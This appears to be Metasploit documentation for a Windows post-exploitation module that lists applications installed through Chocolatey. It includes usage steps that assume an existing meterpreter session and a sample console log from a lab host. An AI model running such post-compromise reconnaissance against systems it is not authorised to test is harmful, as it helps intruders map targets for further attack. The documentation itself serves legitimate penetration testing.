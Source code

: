 ## Vulnerable Application

This module will enumerate all installed applications on a Windows system that
are installed with Chocolatey.

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter or shell session
  3. Do: `use post/windows/gather/enum_chocolatey_applications`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

### ChocoPath

This is here for the incredibly rare cases where chocolatey is not on the
system path. It allows you to set the path of the chocolatey executable
ahead of time. Unless this is changed, it assumes to use chocolatey from
the path.

## Scenarios

### Windows 10 Pro (21H2 Build 19044.1586).

```
msf6 exploit(multi/handler) > [*] Meterpreter session 12 opened (192.168.56.1:4444 -> 192.168.56.112:49906 ) at 2022-03-27 15:57:39 -0400

msf6 exploit(multi/handler) > use post/windows/gather/enum_chocolatey_applications 
msf6 post(windows/gather/enum_chocolatey_applications) > set SESSION 12
SESSION => 12
msf6 post(windows/gather/enum_chocolatey_applications) > run

[*] Enumerating applications installed on DESKTOP-LB04G7R
[*] Targets Chocolatey version: 1.0.0
[*] Getting chocolatey applications.
[+] Successfully grabbed all items
Installed Chocolatey Applications
=================================

Name                       Version
----                       -------
GoogleChrome               99.0.4844.82
SQLite                     3.38.1
chocolatey                 1.0.0
chocolatey-core.extension  1.3.5.1
notepadplusplus            8.3.3
notepadplusplus.install    8.3.3
sublimetext3               3.2.2

[+] Results stored in: /home/rad10/.msf4/loot/20220327160034_default_192.168.56.112_host.application_704988.txt
[*] Post module execution completed
```
